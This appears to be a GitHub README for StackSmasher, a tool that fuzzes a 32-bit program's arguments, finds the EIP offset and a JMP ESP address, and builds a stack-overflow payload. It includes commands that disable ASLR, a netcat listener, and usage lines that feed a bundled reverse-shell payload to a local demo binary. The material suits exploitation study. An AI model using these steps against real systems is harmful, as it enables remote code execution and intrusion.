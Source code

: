 # StackSmasher

## Description
StackSmasher is an application which automatically performs a stack based buffer overflow on the target application. Currently it only supports attacking a vulnerable application through the application run time arguments. However, future modifications are to support various application inputs such as standard input and tcp input.

It will rerun the application many times to fuzz the input until a segmentation fault occurs. It will then find the offset of EIP, as well as the address of a JMP ESP instructions.

Finally it builds the final payload and outputs it.

## Modes
The application has two modes, verbose which outputs the information it has found as well as the exploit as a python script. The other mode is exploit mode which only outputs the exploit payload.

## Limitations
Various settings must be disabled for this to work including DEP, NX, and ASLR. ASLR needs to be done manually using the following script. This application also only works against 32 bit applications.

### Disable ASLR
```sh
sudo bash -c "echo 0 > /proc/sys/kernel/randomize_va_space"
```

### Enable ASLR
```sh
sudo bash -c "echo 2 > /proc/sys/kernel/randomize_va_space"
```

## Compiling

To compile the applications as 32 bit, you may need to install gcc-multilib.
```sh
sudo apt-get install gcc-multilib
```

Compile all applications.
```sh
make
```

## Running StackSmasher
### Verbose Mode
Running smasher in *verbose* mode with the prebuild reverse shell (127.0.0.1:1337) payload against the application *vulnerable*.

```sh
cd bin
chmod +x smasher vulnerable
./smasher verbose payloads/reverse-shell.bin vulnerable
```

Example Output:
```sh
[-] Fuzzing EIP and finding JMP ESP...
[+] Found JMP ESP at 0x565561fe
[+] EIP found at offset 0x51e with length of 0x530
[+] python -c 'print("\x41\x41\...\xcd\x80\x00")'
```

Listen For Shell:
```sh
nc -lkp 1337
```

Executing Payload:
```sh
cd bin
./vulnerable $(python -c 'print("\x41\x41...\xcd\x80\x00")')
```

### Exploit Mode
Running smasher in *exploit* mode with the prebuild reverse shell (127.0.0.1:1337) payload against the application *vulnerable*.

Listen For Shell:
```sh
nc -lkp 1337
```

Executing Payload:
```sh
./vulnerable $(./smasher exploit payloads/reverse-shell.bin vulnerable)
```

![StackSmasher](https://user-images.githubusercontent.com/31845045/108642265-06a30800-749c-11eb-88bb-40d9aa6c987b.png)
![Reverse Shell](https://user-images.githubusercontent.com/31845045/108642230-e4a98580-749b-11eb-8243-b90a4280ded4.png)
